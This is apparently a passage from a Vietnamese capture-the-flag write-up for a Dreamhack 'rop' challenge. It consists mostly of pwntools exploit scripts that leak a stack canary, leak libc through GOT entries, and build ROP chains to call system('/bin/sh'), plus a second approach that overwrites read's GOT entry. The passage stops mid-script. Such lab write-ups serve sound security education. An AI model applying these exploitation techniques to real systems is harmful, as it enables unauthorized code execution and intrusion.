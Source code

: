 payload = b'a'*56
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(read_got)
payload += p64(read_plt)
payload += p64(main)
p.sendafter(b'Buf: ',payload)

puts_got = u64(p.recv(7)+b'\x00\x00')
libc.address = puts_got - libc.sym.puts
system = libc.sym.system
bin_sh = next(libc.search('/bin/sh'))

p.sendafter(b'Buf: ',b'a'*56)
payload = b'a'*56
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
p.sendafter(b'Buf: ',payload)
p.interactive()
```
- hướng thứ 2 mà ta có thể khai thác là dùng write để leak read_got ra , xong dùng read để ghi system đè lên read_got
- read_got + 8  sẽ là /bin/sh → và lúc này nó sẽ thực thi system(’/bin/sh’) thay vì read_got(’/bin/sh’)

```
from pwn import *

context.log_level = 'debug'
p = remote('host3.dreamhack.games', 22426)
e = ELF('./rop')
libc = ELF('./libc.so.6')
read_got = e.got['read']
read_plt = e.plt['read']
write_plt = e.plt['write']
pop_rdi = 0x400853
pop_rsi_r15 = 0x400851
ret = 0x400854

payload = b'A' * 0x39
p.sendafter(b'Buf: ', payload)
p.recvuntil(payload)
canary = u64(b'\x00' + p.recvn(7))

payload = b'A' * 0x38 + p64(canary) + b'B' * 0x8
# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)
